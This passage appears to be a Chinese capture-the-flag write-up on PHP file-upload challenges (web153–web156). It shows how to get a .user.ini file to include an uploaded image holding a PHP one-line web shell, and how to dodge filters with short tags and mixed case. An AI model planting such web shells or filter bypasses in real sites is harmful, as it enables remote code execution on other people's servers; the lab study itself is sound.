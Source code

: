 `auto_append_file` 在该目录下的所有文件尾部包含某个文件的内容, `auto_prepend_file` 则是在文件头部包含某个文件的内容

注意这个是不能跨目录的, `.user.ini` 的作用范围被限制在了上传后所在的文件夹, 但这里**碰巧**的是 /upload/ 目录下存在一个 index.php

![20220729151238](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220729151238.png)

根据黑名单机制, 我们先上传图片马, 然后上传 `.user.ini`, 内容如下

```ini
auto_append_file = "2.png"
```

注意修改 Content-Type, 而且文件名要加引号

访问 index.php

![20220729151810](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220729151810.png)

## web154

图片不能正常上传

测试了一下发现是检测了文件内容中的 `php` 字符串

将 php 改成 `=` 即可绕过 (或者 `php` 修改为大写)

```php
<?= eval($_REQUEST['a']); ?>

<?phP eval($_REQUEST['a']); ?>
```

加 `=` 的效果类似 `echo`

之后配合 `.user.ini`

或者是利用 PHP 短标签, 将一句话改为 `<? eval($_REQUEST['a']);?>`

`.user.ini` 改为如下内容

```ini
auto_append_file = "2.png"
short_open_tag = On
```

上传即可

使用 `<script>` 标签也可以, 未测试

## web155

过滤了 `PHP`, 忽略大小写

利用 `<?=` `<?` 短标签依然可以绕过

## web156

自己的图片马有点问题, 把代码删掉还是传不了
